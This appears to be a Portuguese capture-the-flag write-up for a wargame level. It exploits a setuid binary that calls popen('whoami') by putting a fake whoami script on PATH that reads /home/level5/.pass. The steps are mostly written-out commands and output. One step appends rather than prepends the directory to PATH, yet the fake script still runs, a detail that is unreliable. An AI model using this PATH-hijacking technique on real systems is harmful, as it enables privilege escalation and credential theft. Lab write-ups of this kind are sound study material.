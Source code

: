 # ~ Level 04 ~

```
cd /levels
./level04
Welcome level5
```

Level5?! Que estranho.

```
ls -la
...
-r-sr-x---  1 level5  level4   5159 Dec 18  2013 level04
...
-r--------  1 level4  level4    245 Dec 18  2013 level04.c
...
```

Novamente, temos o source code do level04.

```
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

O software pelo visto executa como level5, mesmo nós estamos num perfil de level4.

O mesmo cria um processo para executar o *whoami*, e então printa.

Comandos como *whoami* são executados pelo diretório informado através da variável PATH do sistema.

```
echo $PATH
/usr/local/radare/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
which whoami
/usr/bin/whoami
```

Como vemos, o *whoami* está em /usr/bin.

E se criarmos um ambiente, com um *whoami* feito por nós e alterarmos a variável PATH?

```
mkdir /tmp/tmp_ronki
cd /tmp/tmp_ronki
vi whoami
```

Então, escrevi o seguinte script

```
#!/bin/sh

cat /home/level5/.pass
```

Assim, como está executando como level5, temos permissão para pegar o *pass*.

Continuando, precisamos dar permissão total e atualizar o PATH.

```
chmod 777 whoami
export PATH="$PATH:/tmp/tmp_ronki"
echo $PATH
/usr/local/radare/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/tmp/tmp_ronki
whoami
cat: /home/level5/.pass: Permission denied
```

Parece ok! Vamos testar novamente o level04.

```
/levels/level04
Welcome ###############
```

Conseguimos ;)
